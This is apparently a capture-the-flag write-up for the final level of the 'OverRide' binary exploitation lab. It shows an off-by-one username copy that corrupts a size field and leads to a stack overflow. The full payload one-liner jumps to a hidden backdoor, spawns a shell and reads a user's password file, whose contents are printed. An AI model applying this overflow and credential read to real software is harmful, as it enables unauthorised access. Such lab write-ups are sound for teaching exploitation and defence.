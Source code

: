 ### Download binary
``scp -P4242 level06@192.168.31.33:/home/users/level06/level06 ~/Bureau/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (refer to source code)
We quickly find that there is a dead code function which does exactly what we want :
**secret_backdoor**.
The analysis of the binary is quite complex and require both GDB and Guidra.

By disasembling the function **handle_msg** we find that the binary use a struct, this one :
````
typedef struct	s_struct_message
{
	char	message[140];
	char	username[40];
	size_t	size;
}				t_struct_message;
````

``(gdb) disas handle_msg``
[...]

This instruction reserves 0xc0 (192 bytes) on the stack for local variables and possibly for some temporary arguments. 192 bytes reserved because there is a 16 byte alignment, the structure may be a little smaller in reality.
````
0x00005555555548c4 <+4>:	sub    $0xc0,%rsp
````

These two instructions determine a memory address based on the current stack position (%rbp).
%rax will contain an address located at 0x8c (140 bytes) from the start of the placeholder. This is what allows us to deduce that our first string (message) is 140 bytes long.
````
0x00005555555548cb <+11>:	lea    -0xc0(%rbp),%rax
0x00005555555548d2 <+18>:	add    $0x8c,%rax
````

Then there is a zeroing of part of this memory, 40 bytes, which tells us the size of our second string (username):
````
0x00005555555548d8 <+24>:	movq   $0x0,(%rax)
0x00005555555548df <+31>:	movq   $0x0,0x8(%rax)
0x00005555555548e7 <+39>:	movq   $0x0,0x10(%rax)
0x00005555555548ef <+47>:	movq   $0x0,0x18(%rax)
0x00005555555548f7 <+55>:	movq   $0x0,0x20(%rax)
````

Here we understand that the structure is passed to the function set_username
````
0x0000555555554906 <+70>:	lea    -0xc0(%rbp),%rax
0x000055555555490d <+77>:	mov    %rax,%rdi
0x0000555555554910 <+80>:	callq  0x5555555549cd <set_username>
````

The flaw is here:
````
for (int i = 0; i <= 40 && struct_message->username[i] != '\0'; i++)
{
	struct_message->username[i] = username[i];
}
````

In this part of the code, it is the **first 41 characters** of the username that are copied, while the buffer is only 40 bytes long.
The 41st character will therefore overwrite the value of **size** contained in the structure.

By changing the size, we will influence:
````
strncpy(struct_message->message, (char *)msg_buffer, struct_message->size);
````
Causing a buffer overflow. We will thus be able to overwrite the EIP and execute our secret_backdoor function.


----

### Gathering infos to build the payload

Locate the **secret_backdoor** function address:  
``(gdb) b main``  
[...]  
``(gdb) r``  
[...]  
``(gdb) info function secret_backdoor``  
>0x000055555555488c  secret_backdoor  

----

### Building of payload

+ Filling the username buffer			-> 'A' * 40
+ New desired size (max 255)			-> '\xff' (255 en hexa)
+ ENTER 								-> '\n'
+ Filling message buffer + padding		-> 'A' * **???**
+ Adress of secret_backdoor				-> '\x8c\x48\x55\x55\x55\x55\x00\x00'

**Finding EIP**

Starting from 192 bytes because we know that the memory allocated for the structure is 192, we will carry out tests, by slice of 4 bytes, until the program stops segfault, and we find:  
``level09@OverRide:~$ (python -c "print 'A' * 40 + '\xff' + '\n' + 'A' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00'"; cat -) | ./level09``  
-> No segfault it looks like EIP is at 200 offset.  
  
----

### Bypassing security

(python -c "print 'A' * 40 + '\xff' + '\n' + 'A' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00'"; cat -) | ./level09
[...]  
``/bin/sh``  
``whoami``  
>end  

``cat /home/users/end/.pass``  
>j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
